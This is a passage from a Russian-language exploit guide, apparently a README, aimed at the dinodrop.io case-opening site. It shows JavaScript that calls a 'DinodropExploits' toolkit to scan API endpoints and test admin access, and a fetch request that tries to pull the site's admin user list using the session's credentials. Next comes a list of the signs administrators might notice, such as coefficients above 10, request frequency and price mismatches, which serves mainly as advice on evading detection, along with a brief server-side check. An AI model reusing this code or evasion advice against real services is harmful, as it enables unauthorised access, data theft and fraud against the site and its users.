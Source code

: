 ### Сценарий 3: "Исследование API"
Поиск скрытых функций и эндпоинтов:

```javascript
// 1. Сканировать все возможные эндпоинты
await DinodropExploits.APIExploit.scanEndpoints()

// 2. Проверить административные функции
await DinodropExploits.APIExploit.checkAdminAccess()

// 3. Попытаться получить список всех пользователей
const response = await fetch('https://dinodrop.io/api/admin/users', {
    credentials: 'include'
});
if(response.ok) {
    const users = await response.json();
    console.log('🚨 ADMIN ACCESS FOUND! Users:', users);
}
```

## 🛡️ Детекция и защита

### Что может заметить администрация:

1. **Аномальные коэффициенты** - запросы с coefficient > 10
2. **Частые запросы** - более 1 запроса в секунду
3. **Необычные API вызовы** - обращения к несуществующим эндпоинтам
4. **Модифицированные цены** - цены не соответствующие базе данных

### Рекомендации по защите:

```javascript
// Пример проверки на сервере (псевдокод)
if (request.body.coefficient > 1) {
    return error("Invalid coefficient");
}

if (request.body.price !== database.getPrice(caseId)) {
    return error("Price mismatch");
}
```

## 🔧 Дополнительные инструменты

### Мониторинг в реальном времени

```javascript
// Создать наблюдатель за изменениями DOM
const observer = new MutationObserver((mutations) => {
    mutations.forEach((mutation) => {
        if (mutation.type === 'childList') {
            console.log('🔄 DOM changed:', mutation.target);
        }
    });
});

observer.observe(document.body, {
    childList: true,
    subtree: true
});
```
